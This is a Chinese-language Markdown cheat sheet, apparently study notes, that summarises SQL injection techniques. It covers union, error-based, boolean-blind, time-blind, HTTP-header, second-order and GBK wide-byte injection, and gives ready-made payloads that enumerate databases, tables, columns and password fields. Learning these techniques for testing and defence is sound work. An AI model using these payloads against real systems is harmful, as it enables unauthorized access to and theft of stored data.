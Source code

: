 # SQL注入

## SQL注入类型

### `UNION`联合注入

- `GET` / `POST`判断：传参位置
- 找出正确的闭合、绕过方式
- `order by`查询字段数
- `union select`查询显示位，显示位可插入查询语句（有回显）
- 爆库爆表爆字段

```sql
union select 1,user(),database()；
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema= "databaseName";
union select 1,2,group_concat(column_name) from information_schema.columns where table_name="tableName";
union select 1,id,passwd from "columnName";
```

<br>

### 基于报错注入

- 有报错信息（ 有回显 ）

- 调用函数传入错误函数引起报错，查看报错信息中的信息

```sql
-- updatexml()
and updatexml(1,concat(0x7e,(select database()),0x7e),1)

-- floor()
and (select 1 from (select count(*),concat((database()),floor (rand(0)*2))x from information_schema.tables group by x)a)

-- extractvalue()
and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
```

<br>

### 布尔盲注

- 无回显，只有`对` / `错`两种状态

- 用`length()`和`substr()`语句，用两种状态来解出库名、表名等的长度和正确字母

```sql
and length(database())>2		-- 解出库名长度
and substr(database(),1,1)='a'  -- 字符 1
and substr(database(),2,1)='a'  -- 字符 2
```

- 重复上述步骤获得所需信息

<br>

### 时间盲注

- 无回显，无明确状态
- 使用`sleep(5)`延时返回`5s`，配合`if`语句使用

```shell
if (length(database())>1,sleep(5),1)
if(substr(database(),1,1)='s',sleep(5),1)
```

- 重复上述步骤

<br>

### HTTP header注入

- 抓包时顺便看看请求头，尝试注入
- 别的就跟前面的一样

```http
【Referer】
*【X-Forwarded-For】
*【Cookie】
【X-Real-IP】
【Accept-Language】
【Authorization】
```

<br>

### 二次注入

- `url-1`有注入点（参数），但返回信息不在`url-1`中显示，而是在另外一个`url-2`中显示

<br>

### 宽字节注入

- 单双引号均被转义，无法逃逸语句的单引号，且数据库是`GBK`编码（可尝试）
- 宽字节的格式是在地址后先加一个`%df`，再加单引号，因为反斜杠的编码为`%5c`，在`GBK`编码中，`%df%5c`是繁体字`“連”`，单引号成功逃逸。因此构造闭合规则时，在单引号前面加上`%df`就行了。

> :question: 什么是宽字节？`GBK`又是什么？
>
> - 宽字节是相对于ascII这样单字节而言的；像GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际上只有两字节。
>
> - GBK是一种多字符的编码，通常来说，一个gbk编码汉字，占用2个字节。一个utf-8编码的汉字，占用3个字节。

<br>

### 获取`Webshell`

- 暂未涉及，以后补上
